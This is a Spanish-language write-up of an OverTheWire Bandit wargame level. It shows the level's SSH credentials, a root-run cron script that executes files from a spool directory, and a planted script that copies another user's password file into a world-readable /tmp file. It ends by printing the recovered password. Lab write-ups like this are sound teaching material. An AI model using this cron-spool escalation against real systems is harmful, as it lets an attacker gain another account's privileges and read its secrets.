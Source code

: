 ## Objetivo
Deberemos crear nuestro propio script en shell para completar este nivel. Primero, investigaremos la configuración en `/etc/cron.d/` para ver qué comando se está ejecutando automáticamente a intervalos regulares. Luego, utilizaremos esta información para desarrollar un script que cumpla con los requisitos del nivel.

## Datos de Acceso al Nivel
- **comando:** ssh
- **host:** bandit.labs.overthewire.org
- **puerto:** 2220
- **usuario:** bandit23
- **contraseña:** 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

## Solución
```bash
ls -l /etc/cron.d
```
```text
total 24
-rw-r--r-- 1 root root 120 Jul 17 15:57 cronjob_bandit22
-rw-r--r-- 1 root root 122 Jul 17 15:57 cronjob_bandit23
-rw-r--r-- 1 root root 120 Jul 17 15:57 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8 14:38 e2scrub_all
-rwx------ 1 root root  52 Jul 17 15:59 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
```
```bash
cat /etc/cron.d/cronjob_bandit24
```
```text
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
```bash
cat /usr/bin/cronjob_bandit24.sh
```
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
```bash
mkdir /tmp/kd
chmod 777 /tmp/kd
cd /tmp/kd
echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
chmod +x script.sh
touch password
chmod 666 password
cp script.sh /var/spool/bandit24/foo
ls -la
```
```text
ls -la
total 10820
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  7 05:38 .
drwxrwx-wt 6872 root     root     11063296 Sep  7 05:40 ..
-rw-rw-rw-    1 bandit23 bandit23       33 Sep  7 05:39 password
-rwxrwxr-x    1 bandit23 bandit23       49 Sep  7 05:38 script.sh
```
```bash
cat password
```
```text
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## Notas Adicionales


## Referencias